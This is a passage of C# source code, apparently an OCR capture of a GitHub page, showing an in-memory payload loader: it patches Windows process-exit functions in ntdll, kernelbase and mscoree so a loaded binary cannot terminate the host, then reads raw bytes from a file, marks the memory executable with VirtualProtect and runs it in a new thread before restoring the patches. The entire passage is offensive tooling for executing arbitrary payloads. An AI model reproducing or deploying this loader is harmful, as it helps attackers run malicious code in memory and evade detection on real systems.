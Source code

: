 ```C#
                PatchFunction("ntdll", "NtTerminateProcess", exitThreadPatchBytes.ToArray());
            if (_ntTerminateProcessOriginalBytes == null)
            {
                return false;
            }


            _rtlExitUserProcessOriginalBytes =
                PatchFunction("ntdll", "RtlExitUserProcess", exitThreadPatchBytes.ToArray());
            if (_rtlExitUserProcessOriginalBytes == null)
            {
                return false;
            }

            return true;
        }

        internal void ResetExitFunctions()
        {

            PatchFunction("kernelbase", "TerminateProcess", _terminateProcessOriginalBytes);

            PatchFunction("mscoree", "CorExitProcess", _corExitProcessOriginalBytes);

            PatchFunction("ntdll", "NtTerminateProcess", _ntTerminateProcessOriginalBytes);

            PatchFunction("ntdll", "RtlExitUserProcess", _rtlExitUserProcessOriginalBytes);

        }

        private delegate IntPtr GetPebDelegate();


        [DllImport("kernel32")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr param, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32")]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);


        public static void Inject()
        {

            byte[] buf1 = File.ReadAllBytes(@"[path to file]");
            uint num;
            IntPtr pointer = Marshal.AllocHGlobal(buf1.Length);
            Marshal.Copy(buf1, 0, pointer, buf1.Length);
            VirtualProtect(pointer, new UIntPtr((uint)buf1.Length), (uint)0x40, out num);

            var mc = new Program();

            bool patched = mc.PatchExit();
            Console.WriteLine("\r\nExit functions patched: " + patched + "\r\n\r\n");

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, pointer, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);

            Console.WriteLine("Thread Complete");

            mc.ResetExitFunctions();


```